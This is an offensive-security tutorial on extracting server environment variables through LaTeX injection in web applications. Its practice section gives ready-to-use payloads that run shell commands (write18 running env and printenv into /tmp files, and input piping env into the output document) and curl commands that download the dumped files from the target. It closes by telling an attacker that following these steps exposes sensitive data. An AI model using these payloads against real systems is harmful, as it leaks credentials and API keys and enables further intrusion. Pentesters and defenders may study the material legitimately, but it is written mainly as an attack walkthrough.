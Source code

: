 ```yaml
---
title: Environment Variable Extraction via LaTeX Injection
description: Learn to extract environment variables using LaTeX injection in web apps
  for information disclosure.
keywords:
- Environment variables
- LaTeX injection
- Information disclosure
- Command execution
- Web application security
- Sensitive data access
- Environment enumeration
- Vulnerability exploitation
- Server configuration
---
```


# Environment Variable Extraction

## Context

The objective of this article is to demonstrate how environment variables can be extracted through LaTeX injection in web applications. This technique leverages LaTeX's capability to execute system commands, allowing for potential information disclosure. The reader is assumed to have knowledge of environment variables, LaTeX commands, web server configurations, and basic LaTeX Injection techniques.

## Theory

### Environment Variable Exposure via LaTeX Injection

Environment variables are used to store sensitive configuration and runtime data necessary for server processes. LaTeX, a typesetting system, can execute system commands via the `\write18` feature if enabled. This capability can be exploited to access and leak environment variables on a server running a LaTeX interpreter. When a web application insufficiently sandboxes the LaTeX interpreter, attackers can inject LaTeX code to run commands like `env` or `printenv`, leading to the exposure of environment variables. An attacker typically injects LaTeX code to execute such commands, capturing the output and gaining access to sensitive data.

### LaTeX Command Execution for Environment Extraction

LaTeX allows for shell command execution using the `\write18{<command>}` syntax, provided that the command execution is enabled in the LaTeX environment. This feature is commonly misused when web applications pass user inputs directly to LaTeX without proper sanitization, permitting arbitrary command execution. Attackers might also use other LaTeX constructs such as `\input{|env|}` to avoid input filters and bypass sanitization.

### Information Disclosure Impact

The extracted environment variables can contain sensitive data such as credentials, API keys, and crucial internal configurations. This information disclosure can be detrimental, enabling further attacks like privilege escalation or lateral movement within a compromised network environment.

## Practice

### Extracting Environment Variables via `\write18` and `env`

- Inject the payload into a vulnerable LaTeX input field to execute the `env` command:
  ```latex
  \immediate\write18{env > /tmp/env.txt}
  ```
  This code writes the environment variables to a temporary file named `env.txt`.

- Trigger the LaTeX compilation to execute the injected command. If successful, the server will process the payload and run the command, storing the environment variable output in the specified file.

- Retrieve the output file if it is web-accessible:
  ```bash
  curl http://<target>/files/env.txt
  ```
  This command allows you to download the dumped environment variables, providing access to potentially sensitive data.

### Direct Environment Variable Disclosure via `\input{|env|}`

- Inject the following LaTeX payload to include environment variable output directly in the compiled document:
  ```latex
  \input{|env|}
  ```
  This payload outputs the environment variables in the resulting document.

- Submit the payload through the vulnerable web application's input field and trigger the document generation process. The compiled PDF or output document will contain the environment variable listing, exposing sensitive information directly.

### Enumerating Environment Variables with `\write18{printenv}`

- Use an alternative command to dump environment variables with the `printenv` command:
  ```latex
  \immediate\write18{printenv > /tmp/vars.txt}
  ```
  This command performs a similar function to `env`, redirecting the environment variables into a file named `vars.txt`.

- Download the file containing the environment variables using:
  ```bash
  curl http://<target>/files/vars.txt
  ```
  By accessing this URL, you can gain insights into the server's environment configuration and any sensitive information stored within these variables.

## Tools

- **curl**
- **pdflatex** 

By rigorously following these steps, an attacker can effectively exploit LaTeX injection vulnerabilities to extract environment variables from web applications, potentially revealing critical sensitive information.